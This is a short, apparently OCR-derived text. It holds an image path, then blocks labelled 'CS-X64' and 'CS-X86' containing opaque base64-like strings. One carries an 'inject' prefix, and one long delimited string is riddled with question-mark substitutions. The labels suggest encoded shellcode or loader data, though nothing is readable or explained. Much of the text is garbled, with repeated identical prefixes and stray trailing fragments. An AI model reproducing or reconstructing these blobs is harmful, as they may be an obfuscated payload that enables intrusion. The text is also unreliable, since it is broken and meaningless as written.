 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

chans33|2,??@;6,????g;10??,??3;1?4???,c;1???8,e;2???2??,E;??2????6???,Z;?30,???F;34,?e;???3??8,%?;42,????W;?46??,%??;50???,???4;54??,u????;58,c???;62????,e;6????6,0????;?70???,1;7????4,???8;7????8????,A??;82,D?;86??,w;9????0???,S;9???4,q;??98???,6;1??02,k???;????106,K???;???1???10??,f;????114,????%;118????,x????;122???,?z;12????6,????x;????130,???Q;|?hAr?@C0h????g?6m????l39YY???cx????yCez???U2E???0LAZv??hI????Fx???Dn??eCL????M%VnB?W?rNL%N???B???q4yU2???uT9lc?1??0????5eg???Dv0???D?Ze?1VnD8???5w0A????wl???vDzU???Yw0?9zSn?x0?q?3lj6???zL????NkV?mAK???vgH???fhzm?%BVwx??PfBz9???ITx?x???AmQ=yesng



htrdhFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTucHcs=tyhjt

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
